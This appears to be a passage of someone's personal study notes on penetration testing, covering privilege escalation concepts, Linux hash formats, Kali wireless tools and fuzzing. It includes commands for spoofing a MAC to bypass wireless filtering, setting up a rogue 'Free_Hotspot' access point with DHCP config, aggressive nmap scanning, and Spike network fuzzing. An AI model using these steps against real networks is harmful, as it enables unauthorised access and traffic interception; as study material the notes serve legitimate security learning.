  - SMM (-2) System Management Mode - on intel chips
  - IPMI (-3) Intelligent Platform Management Interface
  - Bios (-1)

- The "Practical" Rings model
  -  4 - Sandboxed non-root user application
  -  3 - Normal non-root user applications
  -  0 - Kernel/root
  - -1 - Bios
  - -2 - SMM
  - -3 - IPMI
  - Physical Access
    
- Pivoting - Priv Esc to remote system
  - use one node to gain access to other nodes on the nextwork
  - Lateral movement 
    - Pass the Hash
      
- /etc/shadow
  - options for hashes
    - $1$ - it uses MD5 - no longer secure
    - $5$ - it uses SHA-256
    - $6$ - it uses SHA-512
    - $2a# - it uses blowfish
- otherwise it uses DES - considered no longer secure
  
- The least privilege principle
  - every process/user/program mush be able to access only the info and resources that are necessary for its legitimate purpose
    - no-login user accounts for services
    - jails
    - security in depth
    - makes logs cleaner
      
- setuid as root programs
  - theses programs have complete access on a UNIX system
  - virtually every attack chain involves a focus on attacking these programs
    - they are the single points of failure
    - once attackers get any form of access, they want to esc to root
      
- Priv Esc Attack Surface
  - sudi priv escs
  - kernel priv escs
  - daemon exploits / root process exploits
  - weak passwords
    
- logs
  - brute force attempts leave a big footprint
  - remote logins
  - system modifications
  - kernel modification
  - daemon logs
  - module loading/unloading
  - FW/Gateway/traffic logs
    - IDS
    - IPS
  - AD/LDAP/SCP    

*** Lecture 6
** CBT Nuggets Kali Linux 
*** Welcome to the tools of kali linux
*** What is BackTrack
*** Bypassing Wireless Mac Filtering
  - Find the AP
    - airmon-ng & airodump-ng
  - Find an associated client
    - airodump-ng
  - Borrow the MAC address - macchanger
    
- Hidden ssid will show with the <length: 0> in airodump-ng
  
- connecting with specific ssid with ifconfig
#+BEGIN_SRC sh
iwconfig wlan0 essid my_ssid_here channel 1
#+END_SRC

- just show the clients of an AP
#+BEGIN_SRC sh
airodump-ng -c 1 -a --bssid 00:18:11:60:17:3F wlan0mon
#+END_SRC
-a specifies that only clients should be shown

- change mac addr
#+BEGIN_SRC sh
macchanger -m 56:55:CA:F2:6F:AF wlan0
#+END_SRC

*** Rogue Access Point
- tools:
  - airmon-ng
  - airbase-ng
  - dhcpd3

- dhcpd.conf
#+BEGIN_SRC sh
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 192.168.2.255;
option routers 192.168.2.1;
option domain-name-servers 208.67.222.222;
range 192.168.2.51 192.168.2.100;
}
#+END_SRC

- setting up AP
#+BEGIN_SRC sh
airbase-ng --essid "Free_Hotspot" -c 6 wlan0mon
#+END_SRC

*** Metasploit Framework
synflood module by default spoofs the source ip address
*** PWNing system with msf

** Introduction to Packet Analysis
*** [[https://www.youtube.com/watch?v%3DvisrNiKIP3E&t%3D6s][Introduction to TCP/IP Packet Structure]]

** Bug Hunting and Exploit Development - Z. Cliffe Schreuders
url: https://www.youtube.com/watch?v=vFXkDAyIS2w

- Finding Flaws Using Static Analyssis
  
  - Static analysis tools
    - CppCheck
    - Flawfinder
    - RATS
    - VCG
    - Oink (includes Cqual++)
      
  - What to Fuzz
    - Everythin external to the program code!
    - Especially if it crosses a trust boundary
    - examples
      - network protocols, such as service requests
	- incorrect implimentation of the protocol, could throw exceptions
      - file formats
	- possible vulns with file types, media formats hidding code
      - api calls
      - environment variables
	
    - Approaches to fuzzing
      - simple fuzzing - feed input of increasing sizes into a program
      - sequence character input - a sequence of chars what could cause a problem 
      - mutation - takes a standard input/protocol and makes incremental changes
	
    - FOSS Fuzzers
      - Spike - popular framework for specifying fuzzers
	- uses Spike files
	- written in C
      - Sully - network only
      - MSF auxiliary/fuzzers - custom fuzzers built on MSF
	
    - Spike file
      spike_file.spk
      #+BEGIN_EXAMPLE
      s_string("Hello, world!");
      #+END_EXAMPLE
      sends a string
      
      #+BEGIN_EXAMPLE
      s_string_variable("Hello, world!");
      #+END_EXAMPLE
      fuzzes a string
      
      #+BEGIN_EXAMPLE
      s_readline();
      #+END_EXAMPLE
      reads and displays a line of response
      
      #+BEGIN_EXAMPLE
      spike_send();
      #+END_EXAMPLE
      sends what is in the buffer now
      
      #+BEGIN_EXAMPLE
      printf();
      #+END_EXAMPLE
      writes to the local console

    - a Spike file can be launched against a network port or a program using one of Spike's interpreters
    - generic_send_tcp:
      - usage
	#+BEGIN_EXAMPLE
        ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
	#+END_EXAMPLE
	- using
	#+BEGIN_SRC sh
        generic_send_tcp 192.168.0.10 4444 spike_file.spk 0 0	
	#+END_SRC
	
* Books
** [[file://home/crito/Documents/Security/The-Hacker-Playbook-Practical-Guide-To-Penetration-Testing-2014.pdf][The Hacker Playbok - Practical Guide to Penetration Testing]]
*** Pregame and Before the Snap
- setting up a baseline
  - once you have it ready to run take a snapshot of the vm 

- recommeded distro
  - pentoo

***** high level tool list (Linux)
  - windows credential editor 
  - smbexec 
  - Veil 
  - Discover scripts 
  - Mimikatz 
  - Burp 
  - PeepingTom
  - Powersploit
  - BeEF 
  - Responder
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
      
***** high level tool list (windows)
  - HxD
  - Evade
  - Hyperion
  - Cain and Abel
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
  - Evil Foca
    
**** Passive Scan 
1. discover sscripts
   - this tool leveridges all the osint tools in one framework
   
2. recon-ng
 
**** Scanning Process
  1. scan using nexpose/nessus (Loud only for auth)
  2. scan with nmap
  3. scan with custom nmap
  4. screen capture with peepingtom

- nmap banner grab
#+BEGIN_SRC sh
nmap --script /usr/share/nmap/scripts/banner-plus.nse --min-rate=400 --min-parallelism=512 -p1-65535 -n -Pn -Ps -oA 192.168.56.102
#+END_SRC
--min-rate=400 - guarantee that the scan will finish after set time
-n - disable dns resolution
-Pn - disable ping

**** Web App Scanning
Tools
  - zap
  - WebScarab
  - Nikto
  - w3af

- Using Burp
 The process  
  - Spider/Discovery/Scanning
  - Scanning with web app scanner
  - Manual parameter injection
  - Session token analysis
    
1. configure network proxy
2. start burp suite
3. spider through the app
4. discover content
5. run the active scanner
6. exploit
   
*** The Drive
- Metasploit

*** The Throw
- SQL Injections
  - SQLmap
  - SQLninja
    
** [[file://home/crito/Documents/Security/Red/Bug-Bounty-Field-Manual-complete-ebook.pdf][Bug Bounty Field Manual]]
* Links

